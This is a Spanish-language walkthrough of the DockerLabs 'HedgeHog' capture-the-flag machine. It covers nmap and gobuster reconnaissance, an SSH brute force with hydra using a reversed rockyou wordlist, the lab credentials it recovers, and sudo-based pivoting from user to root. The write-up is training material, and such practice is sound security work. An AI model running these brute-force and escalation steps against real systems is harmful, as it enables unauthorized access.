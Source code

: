 plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/ic9VwYZJ#Hr1BjW2axoSRmUYbxhldmTNiYtBV9TQU83JDJPpoYww
Nombre: HedgeHog
Dificultad: muy fácil
Creador: AnkbNikas

Tools:
[[Docker]]
[[Ping]]
[[NMAP]]
[[Gobuster]]
[[Puerto 22 SSH - SFTP (TCP)]]


Mirror image:
![[Dockerlabs -HedgeHog -  Mirror image.png]]


# Despliegue:
```sh fold:"Deploy injection machine"
sudo bash autodeploy.sh hedgehog.tar
```

![[Dockerlabs - HedgeHog - Reconocimiento.png]]
# Reconocimiento

## Ping:

```sh fold:"Deploy injection machine"
ping -c1 172.17.0.2
```

![[Dockerlabs - HedgeHog - Ping.png]]

TRL: 64 --> Linux

## lanzamos un nmap:

```sh fold:"Reconocimiento con nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```

![[Dockerlabs - HedgeHog - nmap result.png]]

Puertos abiertos
22 --> SSH
80 --> HHP

entramos en el navegador con el puerto 80 y vemos si encontramos alguna web interesante:
![[Dockerlabs -HedgeHog - WebSite.png]]

revisamos el código fuente por si encontramos algo:
![[Dockerlabs - hedgeHog - Web codigo fuente.png]]
Pero no damos con nada interesante

Intentamos sacar rutas con gobuster
```sh fold:"Reconocimiento con gobuster"
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2 --add-slash
```

![[Dockerlabs - HedgeHog - Gobuster result.png]]
# Explotación / intrusión
lanzamos un hydra con el usuario que vimos en la web: tails
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog -Rockyou normal.png]]
pero no encontramos nada, al ver el nombre del usuario tails: se nos ocurre invertir el rockyou
que básicamente consiste en poner el rockyou al reves y eliminar los espacios
comandos para invertir el rockyou:

```sh fold:"Invertir el rockyou"
# invertimos
tac rockyou.txt >> rockyouinvertido.txt
# eliminamos los espacios
sed -i 's/ //g' rockyouinvertido.txt 
```

Volvemos a lanzar hydra con el rockyou invertido:
```sh fold:"hydra fuerta bruta al ssh con usuario tails"
hydra -l tails -P /usr/share/wordlists/rockyouinvertido.txt ssh://172.17.0.2
```

![[Dockerlabs - HedgeHog - Hydra result.png]]

Datos obtenidos:
Usuario: tails
Password: 3117548331

Conectamos por SSH

```sh fold:"SSH connection"
ssh tails@172.17.0.2   
```
![[Dockerlabs - HedgeHog - SSH connection.png]]
# Escalada de privilegios

```sh fold:"whoami and sudo -l"
whoami
sudo -l
```

![[Dockerlabs - HedgeHog -whoami - sudo -l.png]]

vemos que no hay nada para escalar pero encontramos un usuario sonic

pivoteamos con el usuario sonic:
sudo -u sonic /bin/bash
![[Dockerlabs - HedgeHog -User pivoting - sonic.png]]

Volvemos a pivotar  ahora sobre el usuario root:
![[Dockerlabs - HedgeHog -User pivoting - root.png]]